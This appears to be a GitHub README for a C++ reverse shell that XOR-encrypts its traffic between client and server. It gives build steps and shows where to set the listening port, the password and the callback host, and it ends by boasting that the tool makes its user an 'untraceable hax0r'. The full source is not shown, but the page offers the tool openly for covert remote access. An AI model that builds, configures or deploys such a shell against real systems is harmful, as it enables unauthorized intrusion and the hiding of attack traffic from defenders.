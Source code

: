[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
### Ciphered Reverse Shell using XOR

By using pipes, vfork and execve its posible to manipulate interactively input and output of desired program. So its posible to "encrypt" all the data transfered between client and server with a cihper algorithm like `XOR`.

### Building

Open `Server.cpp` and modify the following line:
```cpp
 Server *Srv = new Server(LISTENING-PORT, YOUR-PASSWORD);
```
Save and build with `make server`.

Open `Client.cpp`, first modify `Client` class:
```cpp
class Client{
        private:
                std::string strPassword = YOUR-PASSWORD;

```
Now on `main` specify where client its going to connect:
```cpp
if(Cli->Connect(HOST, PORT)){

```
Save and build with `make client`.
Done!!!
Now you have a `network encrypted` reverse shell and you turn yourself into an untraceable hax0r :v
